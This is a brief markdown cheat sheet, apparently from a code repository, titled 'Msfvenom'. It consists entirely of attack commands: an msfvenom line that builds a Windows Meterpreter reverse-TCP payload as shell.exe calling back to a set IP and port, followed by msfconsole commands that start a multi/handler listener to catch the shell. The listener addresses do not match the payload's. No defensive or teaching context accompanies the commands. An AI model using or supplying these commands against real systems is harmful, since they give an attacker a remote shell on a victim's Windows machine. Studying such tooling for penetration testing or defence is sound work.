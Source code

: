 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j

